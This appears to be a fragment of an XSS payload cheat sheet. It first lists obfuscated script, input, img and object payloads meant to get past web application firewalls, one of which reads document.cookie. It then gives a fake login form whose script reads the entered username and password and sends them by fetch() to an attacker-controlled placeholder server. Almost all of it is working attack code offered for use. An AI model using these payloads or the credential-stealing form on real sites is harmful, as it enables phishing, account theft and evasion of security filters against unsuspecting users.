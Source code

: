 ### WAF bypass
```
<sCriPt>alert``</sCRipT>
<sCriPt>eval('alert\x280\x29');</sCRipT>
<sCriPt>setTimeout('alert\x280\x29',0);</sCRipT>
<sCriPt>Function('alert\x280\x29')();</sCRipT>
<sCriPt>window.location='javascript:alert(0)';</sCRipT>
<iNpUt &gt; id="x"onfocus="window['\a\l\ert']()" autofocus />
<iNpUt type=im&#x000000000000000000000000000000061;ge &gt; id="x"oNerRor="window['\a\l\ert']()" src />
<iNpUt %253e onfocus="&#x000000000000000000000000000000061;lert()" autofocus />
<iNpUt x="&quot; /> " id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt x="&#x22; /> " id=""onfocus="window['\a\l\ert']()" autofocus/> 
<iNpUt x='&#39; /> ' id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt /&#62; id=""onfocus="window['\a\l\ert']()" autofocus/>
<iMG src &gt; onerror="alert&#x000000028;&#x29;" />
<iMG src onload=%ff%00%ffAAA onerror=alert() />
<iMG onerror="top['loc\u{61}tion'] = 'javascript:alert\u{28})'" src />
<oBjECt data="javascript:window['\a\l\ert']()" />
<a href="javascript&colon;alert&lpar;document&period;cookie&rpar;">REDIRECT TO LOGIN</a>
```

### Fake authentication form sending credentials to remote server

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
